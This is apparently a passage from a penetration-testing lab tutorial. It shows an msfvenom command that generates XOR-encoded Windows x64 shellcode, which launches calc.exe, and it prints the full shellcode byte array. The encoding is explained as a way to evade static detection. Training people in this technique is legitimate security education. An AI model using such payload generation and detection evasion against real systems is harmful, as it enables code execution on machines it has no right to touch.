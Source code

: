 In the pwnbox, we can use the following command `msfvenom` command to generate shellcode that will execute the calculator ( `calc.exe`):

```shell
msfvenom --platform windows --arch x64 -p windows/x64/exec CMD=calc.exe -e x64/xor -f c -v shellcode

```

The breakdown of the command is as follows:

- `--platform windows`: Specifies that the shellcode is for the Windows platform.
- `--arch x64`: Specifies the architecture of the shellcode to be 64-bit.
- `-p windows/x64/exec`: Indicates the payload type, in this case, the exec payload for Windows x64, which executes a given command.
- `CMD=calc.exe`: Specifies the command to execute, which is `calc.exe` (the Windows calculator).
- `-e x64/xor`: Specifies that the payload should be encoded using the x64/xor encoder to enhance its chances of evading static detection mechanisms while maintaining its functionality.
- `-f c`: Formats the output as a C-style array.
- `-v shellcode`: Sets the variable name for the shellcode array to shellcode.

When we run this command, msfvenom will generate the shellcode and display it in the specified format. The shellcode below pops up `calc.exe` when executed. The shellcode is converted into a char array and saved inside `shellcode[]`. The output will look something like this:

```shell
msfvenom --platform windows --arch x64 -p windows/x64/exec CMD=calc.exe -e x64/xor -f c -v shellcode

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 319 (iteration=0)
x64/xor chosen with final size 319
Payload size: 319 bytes
Final size of c file: 1375 bytes

unsigned char shellcode[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef"
"\xff\xff\xff\x48\xbb\x26\x8f\x41\x8a\x78\x3a\x54\xf2\x48"
"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xda\xc7\xc2"
"\x6e\x88\xd2\x94\xf2\x26\x8f\x00\xdb\x39\x6a\x06\xa3\x70"
"\xc7\x70\x58\x1d\x72\xdf\xa0\x46\xc7\xca\xd8\x60\x72\xdf"
"\xa0\x06\xc7\xca\xf8\x28\x72\x5b\x45\x6c\xc5\x0c\xbb\xb1"
"\x72\x65\x32\x8a\xb3\x20\xf6\x7a\x16\x74\xb3\xe7\x46\x4c"
"\xcb\x79\xfb\xb6\x1f\x74\xce\x10\xc2\xf3\x68\x74\x79\x64"
"\xb3\x09\x8b\xa8\xb1\xd4\x7a\x26\x8f\x41\xc2\xfd\xfa\x20"
"\x95\x6e\x8e\x91\xda\xf3\x72\x4c\xb6\xad\xcf\x61\xc3\x79"
"\xea\xb7\xa4\x6e\x70\x88\xcb\xf3\x0e\xdc\xba\x27\x59\x0c"
"\xbb\xb1\x72\x65\x32\x8a\xce\x80\x43\x75\x7b\x55\x33\x1e"
"\x6f\x34\x7b\x34\x39\x18\xd6\x2e\xca\x78\x5b\x0d\xe2\x0c"
"\xb6\xad\xcf\x65\xc3\x79\xea\x32\xb3\xad\x83\x09\xce\xf3"
"\x7a\x48\xbb\x27\x5f\x00\x01\x7c\xb2\x1c\xf3\xf6\xce\x19"
"\xcb\x20\x64\x0d\xa8\x67\xd7\x00\xd3\x39\x60\x1c\x71\xca"
"\xaf\x00\xd8\x87\xda\x0c\xb3\x7f\xd5\x09\x01\x6a\xd3\x03"
"\x0d\xd9\x70\x1c\xc2\xc2\x3b\x54\xf2\x26\x8f\x41\x8a\x78"
"\x72\xd9\x7f\x27\x8e\x41\x8a\x39\x80\x65\x79\x49\x08\xbe"
"\x5f\xc3\xca\xe1\x50\x70\xce\xfb\x2c\xed\x87\xc9\x0d\xf3"
"\xc7\xc2\x4e\x50\x06\x52\x8e\x2c\x0f\xba\x6a\x0d\x3f\xef"
"\xb5\x35\xfd\x2e\xe0\x78\x63\x15\x7b\xfc\x70\x94\xe9\x19"
"\x56\x37\xdc\x43\xf7\x24\x8a\x78\x3a\x54\xf2";

```

